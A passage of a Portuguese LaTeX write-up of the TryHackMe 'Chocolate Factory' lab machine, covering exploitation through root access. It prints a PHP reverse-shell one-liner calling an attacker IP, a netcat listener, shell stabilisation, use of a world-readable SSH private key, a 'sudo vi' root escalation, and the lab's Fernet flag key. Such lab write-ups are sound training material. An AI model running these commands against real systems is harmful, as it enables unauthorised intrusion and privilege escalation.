        
\includegraphics[width=\textwidth]{imgs/tela_login.png}
        \caption{Tela de login encontrada em \texttt{/index.html}.}
    \end{subfigure}
    \hfill
    \begin{subfigure}[b]{0.48\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{imgs/tela_home.png}
        \caption{Tela encontrada em \texttt{/home.php}.}
    \end{subfigure}
    \caption{Páginas encontradas durante a enumeração da porta 80.}
\end{figure}

Na tela de login, podemos tentar as credenciais encontradas do charlie e acabamos redirecionados para a tela do home.

Nesta etapa, podemos tentar criar um shell reverso, pois, pelas características da tela, aparentemente é possível fazer isso, já que a página de home expõe um campo que executa comandos PHP no servidor.

Primeiro, deixamos um listener aguardando a conexão de volta:

\begin{lstlisting}[caption={Listener netcat aguardando a conexão reversa}]
$ nc -lvnp 9001
\end{lstlisting}

Em seguida, copiamos e colamos o seguinte payload PHP na barra de comando da página, trocando o IP pelo da nossa máquina atacante:

\begin{lstlisting}[caption={Payload PHP utilizado para obter a reverse shell}]
php -r '$sock=fsockopen("192.168.0.25",9001);shell_exec("sh <&3 >&3 2>&3");'
\end{lstlisting}

Ao executar o payload, o servidor conecta de volta ao nosso listener e obtemos uma shell como o usuário \textit{www-data}.

Após estabelecer a conexão, é necessário estabilizar a shell para obter uma sessão interativa:

\begin{enumerate}
    \item Na shell recebida, gere um TTY utilizando Python:

\begin{lstlisting}[caption={Gerando um TTY interativo}]
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
\end{lstlisting}

    \item Em seguida, ajustando o terminal local:

\begin{lstlisting}[caption={Ajustando o terminal local}]
$ stty raw -echo; fg
\end{lstlisting}

    \item Configure as variáveis do terminal dentro da shell:

\begin{lstlisting}[caption={Configurando o terminal}]
$ export TERM=xterm-256color
$ stty rows 40 columns 120
\end{lstlisting}
\end{enumerate}


\textbf{Porta 113}

Na porta 113, podemos baixar um executável, \textit{key\_rev\_key}. A princípio, o binário apenas pergunta um nome, como na figura abaixo.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/exec_bin_key.png}
    \caption{executando o binário \textit{key\_rev\_key}}
\end{figure}

Podemos vasculhar ele em busca de flags:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/key_rev_key_exec.png}
    \caption{analisando o binário \textit{key\_rev\_key}}
\end{figure}

E assim encontramos a primeira delas.

% --- 2.6 Movimentação Lateral (Se aplicável) ---
\section{Movimentação Lateral}
% Aplicável quando há múltiplos usuários ou pivoting entre serviços. Descrever a escalada horizontal com o
% mesmo padrão da seção anterior.

Com a shell estabilizada, podemos mover para o diretório do usuário charlie e procurar pelas flags.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{imgs/exploring_server.png}
    \caption{explorando o diretório do charlie}
\end{figure}

Ao tentar ler o arquivo \textit{user.txt}, não temos permissão necessária para fazer isso, pois ele possui permissão \texttt{-rw-r-----}, legível apenas pelo dono (charlie) e pelo grupo (charley) — e a shell atual está rodando como \textit{www-data}.

Entretanto, observamos que o arquivo \textit{teleport} (chave privada SSH do charlie) possui permissão \texttt{-rw-r--r--}, ou seja, é legível por \textbf{qualquer usuário} do sistema, incluindo o \textit{www-data}. Essa configuração indevida de permissões nos permite ler a chave e utilizá-la para autenticar como o charlie via SSH:

\begin{lstlisting}[caption={Copiando a chave privada e conectando como charlie via SSH}]
www-data@ip-10-66-165-174:/home/charlie$ cat teleport
$ chmod 600 teleport
$ ssh -i teleport charlie@<IP_ALVO>
\end{lstlisting}

Com isso, obtemos uma shell estável como o usuário charlie e conseguimos ler a flag de usuário em \textit{user.txt}.

% --- 2.7 Escalada de Privilégios ---
\section{Escalada de Privilégios}
% Descrever o vetor de privesc identificado, o processo de enumeração local que o revelou (linpeas, sudo -l,
% capabilities, etc.) e a exploração realizada. Incluir o comando final que comprova o acesso root/SYSTEM

Já autenticados como charlie, o primeiro passo de enumeração local é verificar quais comandos o usuário pode executar como root:

\begin{lstlisting}[caption={Enumerando permissões de sudo do usuário charlie}]
$ sudo -l
Matching Defaults entries for charlie on ip-10-66-165-174:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charlie may run the following commands on ip-10-66-165-174:
    (root) NOPASSWD: /usr/bin/vi
\end{lstlisting}

O resultado mostra que o charlie pode executar o editor \textit{vi} como root sem necessidade de senha. Esse binário consta no GTFOBins como um vetor clássico de escalada de privilégios, pois o vi permite executar comandos de shell a partir do seu modo de comando:

\begin{lstlisting}[caption={Explorando o sudo vi via GTFOBins para obter shell root}]
$ sudo vi -c ':!/bin/sh'
\end{lstlisting}

Com isso, obtemos uma shell interativa como root.

Por fim, dentro do sistema é encontrado um script \textit{root.py}, responsável por decriptar a flag final usando criptografia Fernet. A chave necessária para essa decriptação é exatamente a que foi extraída anteriormente do binário \textit{key\_rev\_key} da porta 113 (seção \textit{Exploração}):

\begin{lstlisting}[caption={Decriptando a flag root com a chave Fernet extraída do binário}]
# root.py
from cryptography.fernet import Fernet

key = b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
fernet = Fernet(key)

with open("root.txt.enc", "rb") as f:
    encrypted = f.read()

print(fernet.decrypt(encrypted).decode())
\end{lstlisting}

A execução do script com a chave correta revela a flag de root, confirmando o comprometimento total da máquina.

% --- 2.8 Conclusão ---
\section{Conclusão}
% Resumo técnico de 3 a 5 linhas sintetizando a cadeia de exploração completa, do reconhecimento à flag.

A exploração da máquina Chocolate Factory envolveu o encadeamento de diversas técnicas: enumeração de serviços via nmap revelou um FTP com acesso anônimo, de onde foi extraída uma imagem com credenciais escondidas via esteganografia (steghide); essas credenciais permitiram o acesso a um painel web cuja funcionalidade de execução de comandos foi abusada para obter uma reverse shell como \textit{www-data}. A partir dessa shell, uma chave SSH com permissões de leitura indevidas permitiu pivotar lateralmente para o usuário charlie, e uma configuração incorreta de \textit{sudo} sobre o binário \textit{vi} (vetor documentado no GTFOBins) possibilitou a escalada final para root. A flag de root, por sua vez, dependia de uma chave Fernet obtida via engenharia reversa simples (\textit{strings}) de um binário exposto na porta 113, ilustrando como informações aparentemente isoladas entre diferentes serviços podem ser combinadas para viabilizar o comprometimento total do sistema.

% --- 2.9 Referências ---
\section{Referências}
% Espaço destinado às fontes utilizadas para a exploração: links dos repositórios dos exploits públicos e links
% das CVEs correspondentes.

\begin{itemize}
    \item TryHackMe -- Chocolate Factory: \url{https://tryhackme.com/room/chocolatefactory}
    \item Write-up de referência utilizado como base: \url{https://writeupsforhacking.wordpress.com/2021/01/18/chocolate-factory-walkthrough/}
    \item GTFOBins -- vi: \url{https://gtfobins.github.io/gtfobins/vi/}
    \item Documentação do steghide: \url{http://steghide.sourceforge.net/documentation.php}
    \item Documentação do hashcat (modo 1800 -- sha512crypt): \url{https://hashcat.net/wiki/doku.php?id=example_hashes}
\end{itemize}

\end{document}